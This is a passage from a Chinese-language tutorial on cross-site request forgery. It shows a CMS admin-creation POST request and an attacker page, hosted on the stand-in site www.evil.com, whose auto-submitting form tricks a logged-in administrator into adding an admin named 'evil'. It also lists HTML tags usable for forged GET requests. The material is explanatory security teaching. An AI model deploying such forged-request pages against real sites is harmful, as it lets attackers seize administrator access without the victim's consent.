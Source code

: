 有人说这有什么大不了的，好，我们再看看另一个场景下的CSRF攻击。

（2）场景二：

在一个CMS系统的后台，发出下面的POST请求可以执行添加管理员的操作：

```
POST /manage.php?act=add HTTP/1.1
Host: www.cms.com
…
Cookie: PHPSESSID=ee2cb583e0b94bad4782ea;
is_admin=234mn9guqgpi3434f9r3msd8dkekwel
(空一行)
uname=test&pword=test

```

在这里，攻击者构造了的csrf2.html页面如下：

```
<html>
    <form action="/manage.php?act=add" method="post">
        <input type="text" name="uname" value="evil" />
        <input type="password" name="pword" value="123456" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</html>

```

该页面的链接为`http://www.evil.com/csrf2.html`，攻击者诱骗已经登录后台的网站管理员访问该链接（比如通过给管理员留言等方式）会发生什么呢？当然是网站管理员根据攻击者伪造的请求添加了一个用户名为evil的管理员用户。

通过这些场景我们可以看到，CSRF攻击会根据场景的不同而危害迥异。小到诱使用户留言，大到垂直越权进行操作。这些攻击的请求都是跨域发出,并且至关重要的一点，都是在受害者的身份得到认证以后发生的。另外，我们在第一个场景中攻击时并没有使用JavaScrpit，这说明CSRF攻击并不依赖于JavaScript。

0x03 CSRF攻击方式
=============

* * *

（1）HTML CSRF攻击：

即利用HTML元素发出GET请求（带src属性的HTML标签都可以跨域发起GET请求），如：

```
<link href="…">
<img src="…">
<iframe src="…">
<meta http-equiv="refresh" content="0; url=…">
<script src="…">
<video src="…">
<audio src="…">
<a href="…">
<table background="…">
…

```
